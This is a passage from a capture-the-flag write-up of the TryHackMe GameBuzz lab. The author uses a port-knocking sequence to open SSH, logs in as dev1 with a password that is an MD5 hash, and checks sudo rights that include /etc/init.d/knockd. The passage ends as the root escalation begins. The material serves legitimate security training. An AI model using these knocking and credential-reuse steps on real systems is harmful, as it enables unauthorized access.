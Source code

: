 **As you can see, it has 2 port knocking sequences:**

- Open SSH: `5020` -> `6120` -> `7340`
- Close SSH: `9000` -> `8000` -> `7000`

**Armed with above information, we can open the SSH service by knocking port `5020`, `6120`, `7340`:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/GameBuzz)-[2023.01.24|13:51:14(HKT)]
└> knock -v $RHOSTS 5020 6120 7340
hitting tcp 10.10.115.32:5020
hitting tcp 10.10.115.32:6120
hitting tcp 10.10.115.32:7340
```

**We now should able to SSH to `dev1`:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/GameBuzz)-[2023.01.24|13:52:16(HKT)]
└> ssh dev1@$RHOSTS
dev1@10.10.115.32's password: 
Permission denied, please try again.
```

Wait. Wrong password?

**Maybe the password is the MD5 hash one?**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/GameBuzz)-[2023.01.24|13:52:16(HKT)]
└> ssh dev1@$RHOSTS
[...]
dev1@incognito:~$ whoami;hostname;id;ip a
dev1
incognito
uid=1001(dev1) gid=1001(dev1) groups=1001(dev1)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:8b:df:7d:19:1f brd ff:ff:ff:ff:ff:ff
    inet 10.10.115.32/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2059sec preferred_lft 2059sec
    inet6 fe80::8b:dfff:fe7d:191f/64 scope link 
       valid_lft forever preferred_lft forever
```

Oh! It's the MD5 hash one!

And I'm user `dev1`!

### dev1 to root

**Sudo permission:**
```shell
dev1@incognito:~$ sudo -l
[sudo] password for dev1: 
Matching Defaults entries for dev1 on incognito:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dev1 may run the following commands on incognito:
    (root) /etc/init.d/knockd
```
